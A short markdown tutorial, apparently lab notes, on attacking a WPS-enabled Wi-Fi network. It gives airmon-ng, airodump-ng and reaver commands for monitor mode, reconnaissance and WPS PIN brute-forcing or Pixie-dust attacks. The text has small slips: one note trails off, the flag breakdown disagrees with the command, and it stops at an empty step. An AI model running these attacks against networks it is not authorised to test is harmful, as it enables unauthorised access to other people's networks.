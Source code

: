 # WPS network

## Tools

- [airmon-ng](https://linux.die.net/man/1/airmon-ng)
- [airodump-ng](https://linux.die.net/man/1/airodump-ng)
- [wpa_supplicant](https://linux.die.net/man/8/wpa_supplicant)
- [reaver](https://man.archlinux.org/man/reaver.1.en)

## Reconnaissance

1. Set the `wlan2` interface into monitor mode

```bash
sudo airmon-ng start wlan2
```

> Note: Do not run `airmon-ng check kill` as it will kill important processes required to run was

2. Conduct reconnaissance using the `wlan2mon` interface to find the target open network

```bash
sudo airodump-ng wlan2mon --band abg --wps --manufacturer
```

Here is a breakdown of the above command
```bash
sudo               # Run the command as `root`
  airodump-ng      # The program we want to run
    wlan2mon       # The wireless interface
    --band abg     # Hop to channels in the a, b, and g frequency bands
    --wps          # List Wireless Protected Setup (WPS) information
    --manufacturer # Display the manufacturer of devices (based on their OUI)
```

3. Use reaver to attack the wps network

```bash
sudo reaver -i wlan2mon -b <bssid> -v
```

Reaver is a tool for abusing common wps networks detailed [here](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf). It is used mainly to conduct a bruteforce or a PixieWPS attack.
PixieWPS is an offline attack that involves bruteforcing prng flaws of some common vendors.

Here is a breakdown of the reaver command:

```bash
sudo            # Runs the command as root
  reaver        # Name of the program being run
    -i wlan2mon # Sets the interface to conduct the attack from
    -b <bssid>  # Sets the target bssid
    -vv         # Turns on verbose mode so you can see the attempts
```

4. 
